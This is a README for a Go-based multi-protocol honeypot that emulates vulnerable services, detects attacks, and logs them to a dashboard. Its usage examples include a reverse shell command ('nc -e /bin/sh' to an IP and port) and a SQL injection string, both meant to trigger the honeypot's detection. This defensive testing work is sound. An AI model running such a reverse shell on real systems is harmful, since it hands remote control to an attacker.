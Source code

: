 # 🔍 HoneyPot Server – A Multi-Protocol Cybersecurity Trap

This repository contains a powerful Go-based **HoneyPot Server**, designed to simulate vulnerable network services (SSH, HTTP, FTP, Telnet, DNS, MySQL, SMTP) and capture malicious activities. Perfect for cybersecurity enthusiasts, pentesters, or anyone looking to study attacker behavior in a controlled environment! 🌐🚨

## ✨ Features

✅ **Multi-Protocol Support**: Simulates SSH, HTTP, FTP, Telnet, DNS, MySQL, and SMTP services.  
✅ **Attack Detection**: Identifies brute force, SQL injections, reverse shells, and ransomware attempts.  
✅ **Interactive Dashboard**: Real-time logs, connection stats, and graphs (via Chart.js).  
✅ **Alert System**: Sends notifications to Discord and integrates with SIEM systems.  
✅ **Geo-Location**: Tracks attacker locations using IP-API.  
✅ **Logging**: Saves events in JSON (`honeypot.json`), raw payloads (`payloads.bin`), and stats (`stats.json`).  
✅ **Exportable Results**: Download logs as CSV from the dashboard.  
✅ **Customizable**: Configure ports, max connections, and external integrations via `config.json`.

## 🚀 Installation

### Prerequisites

This tool was developed and tested on Linux, macOS, and Windows. It requires Go and a few dependencies:

1️⃣ **Install Go**  
   - Download Go (version 1.18 or higher) from [golang.org](https://golang.org/dl/).  
   - Ensure Go is added to your PATH. Verify:  
     ```bash
     go version
     ```

2️⃣ **Install Dependencies**  
   The project uses external Go modules. They will be automatically installed when you build the project.

3️⃣ **Optional Tools for Testing**  
   - `netcat` (`nc`): For testing SSH, Telnet, SMTP.  
   - `curl`: For testing HTTP.  
   - `ftp`: For testing FTP.  
   - `mysql` client: For testing MySQL.  
   - `nslookup or dig`: For testing DNS.

### Clone and Setup

1️⃣ **Clone the Repository**  
   ```bash
   git clone https://github.com/ryuji4real/serverhoneypot.git
   cd honeypot-server
   ```

2️⃣ **Install Go Modules**  
   ```bash
   go mod tidy
   ```

3️⃣ **Configure the Honeypot**  
   Copy the example configuration file:  
   ```bash
   cp config.example.json config.json
   ```  
   Edit `config.json` to set your ports, Discord webhook, and SIEM endpoint (optional):  
   ```json
   {
       "ports": {
           "SSH": "2222",
           "HTTP": "8080",
           "FTP": "21",
           "Telnet": "23",
           "DNS": "5353",
           "MySQL": "3306",
           "SMTP": "2525"
       },
       "max_connections": 50,
       "discord_webhook": "your webhook",
       "siem_endpoint": "http://localhost:12345"
   }
   ```

4️⃣ **Build and Run**  
   ```bash
   go run main.go
   ```  
   **Note**: If you use ports below 1024 (e.g., 21, 23), run with `sudo`:  
   ```bash
   sudo go run main.go
   ```

## 🌐 Usage

### Test the Services

The honeypot simulates vulnerable services. Here’s how to interact with them:

- **SSH** (port 2222):  
  ```bash
  nc localhost 2222
  ```  
  Try commands like `whoami`, `dir`, `cat /secrets.txt`, or `exit`.

- **HTTP** (port 8080):  
  Open `http://localhost:8080` in a browser.  
  - Login with `user=admin`, `pass=weak123` to see a fake API key.  
  - Try SQL injection on `/api/users?id=1 OR 1=1`.

- **FTP** (port 21):  
  ```bash
  ftp localhost 21
  ```  
  Use `USER test`, `PASS test`, `LIST`, `RETR secrets.txt`, `QUIT`.

- **Telnet** (port 23):  
  ```bash
  telnet localhost 23
  ```  
  Enter a fake username/password (e.g., `test`/`test`).

- **DNS** (port 5353):  
  ```bash
  nslookup
  > server localhost
  > set port=5353
  > fake.com
  ```  
  Expected: Resolves to `10.0.0.1`.

- **MySQL** (port 3306):  
  ```bash
  mysql -h localhost -P 3306 -u root -p
  ```  
  Try `SELECT * FROM users;` to trigger a fake response.

- **SMTP** (port 2525):  
  ```bash
  nc localhost 2525
  ```  
  Use `EHLO test`, `MAIL FROM:<test@example.com>`, `RCPT TO:<admin@example.com>`, `QUIT`.

- **Dashboard** (port 9090):  
  Open `http://localhost:9090` to see real-time logs, stats, and graphs.  
  - Export logs as CSV via the "Exporter logs en CSV" link.

### Generated Files

- `honeypot.json`: Logs of all events in JSON format.  
- `stats.json`: Connection statistics.  
- `payloads.bin`: Raw payloads sent by clients.

## 💡 Usage Examples

### Simulate an SSH Attack
```bash
nc localhost 2222
```
- Type `nc -e /bin/sh 1.2.3.4 4444` to simulate a reverse shell attempt.  
- Check the dashboard (`http://localhost:9090`) for the alert.

### Test HTTP Login
Open `http://localhost:8080` in a browser:  
- Enter `user=admin`, `pass=weak123` → See "Welcome Admin".  
- Try wrong credentials → See "Access Denied".

### Monitor Attacks
- Open the dashboard (`http://localhost:9090`).  
- Perform actions on any service (e.g., SSH, HTTP).  
- Watch logs update in real-time with geo-location data.

## 💡 Fast, flexible, and powerful – your go-to tool for capturing attacker behavior! 🚀

## ⚠️ Warning

This honeypot simulates vulnerable services to attract attackers. **Do not expose it to the public internet** without proper precautions (e.g., behind a VPN or firewall), as it could be exploited by real attackers.
